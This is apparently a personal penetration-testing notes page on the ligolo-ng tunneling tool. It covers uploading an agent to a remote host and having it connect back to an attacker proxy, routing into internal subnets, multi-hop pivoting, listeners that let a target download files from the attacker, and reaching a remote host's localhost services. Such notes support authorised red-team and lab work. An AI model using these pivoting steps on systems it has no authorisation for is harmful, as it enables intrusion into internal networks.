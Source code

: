 ```yaml
---
layout: post
author: reo
title: 'ligolo-ng'
category: tools
tags: networking
---
```


https://github.com/nicocha30/ligolo-ng/wiki/Quickstart
Runs on port 11601 by default

## Quickstart
1. Upload `agent` to the remote host, don't run it yet
2. Start the proxy on the attacker machine
   ```bash
   sudo ./proxy -selfcert
   ```
3. Create the interface(s) in the ligolo-ng CLI for each agent as needed
   ```bash
   » interface_create --name ligolo
   ```
4. Start the agent on the remote host (and background process)
   Linux (POSIX):
   ```bash
   ./agent -connect ENTER_LISTENING_IP_HERE:11601 -ignore-cert &
   ```
   Windows (Powershell):
   ```Powershell
   Start-Job { .\agent.exe -connect ENTER_LISTENING_IP_HERE:11601 -ignore-cert }
   ```
5. Wait for the ligolo-ng proxy to detect that the agent has connected
6. In the Ligolo-ng CLI, run `session` and select the desired agent
7. Start the tunnel on the interface created in step 3
   ```bash
   » tunnel_start --tun ligolo
   ```
8. Find and confirm the subnet you wanna forward running `ifconfig` in the ligolo-ng CLI
9. Set up the route from step 8 in the ligolo_ng CLI
   ```bash
   » interface_add_route --name ligolo --route 172.16.1.0/24
   ```

**NOTE: [[Network Enumeration]] nmap scans need to run with `--unprivileged`**

## Listeners
On the ligolo-ng CLI
```bash
» listener_add --addr 0.0.0.0:41337 --to 0.0.0.0:41337
» listener_list
```
**Make sure the correct session is selected**
* Forwards connections made to the agent on port `--addr` to the attacker machine on port `--to`
* Consider this situation with the listener set up:
	* Attacker is running an HTTP server on 172.16.1.0/24 port 41337
	* Target is only on the 172.16.2.0/24 network
	* Agent is dual-homed with 172.16.1.0/24 and 172.16.2.0/24
	* Agent has IP 172.16.2.10 on the 172.16.2.0/24 network
	  - - -
	* Target runs `curl 172.16.2.10:41337/my_file`
	* The listener is set up so this is forwarded to the attacker
	* Target is able to get the file from the attacker

## Multi-Pivoting
Using the same names and IP addresses as the example in [[#Listeners]]
1. Set up a listener on Agent for the port ligolo-ng proxy uses (11601)
   ```bash
» listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
   ```
2. Run the agent on Target with the IP `172.16.2.10` and port from step 1
3. The proxy on the attacker machine receives the agent connection
4. Change session to the new connection on the ligolo-ng CLI
```bash
» session
```
5. Create the new interface and set up routes/tunnels on the ligolo-ng CLI
```bash
» interface_create --name ligolo2
» start --tun ligolo2
» interface_add_route --name ligolo2 --route 172.16.2.0/24
```

Can now reach the `172.16.2.0/24` network via the Target machine

## Port Forward for Localhost
**Make sure the correct session is selected**
```
[Agent : user@host2] » listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:4444 --tcp
```
NOTE this is on host2, there's a service on localhost:4444 that I want to access
```
[Agent : user@host2] » interface_create --name ligolo2
```
Create a new tun interface for the second pivot
```
[Agent : user@host2] » start --tun ligolo2
[Agent : user@host2] » interface_add_route --name ligolo2 --route 240.0.0.1/32
```
240.0.0.1 is an alias for localhost on the remote machine
Can now interact with services running on localhost on the remote machine by interacting with 240.0.0.1
Eg. `nc -nv 240.0.0.1 4444`

### Cleanup
Can delete interfaces using the ligolo-ng CLI:
```bash
ifdel --name ligolo # Delete the interface "ligolo"
```

## Troubleshooting
```bash
ip a                       # Interface info
ip route                   # Routes info
ip route del 172.16.1.0/24 # Delete routes
```

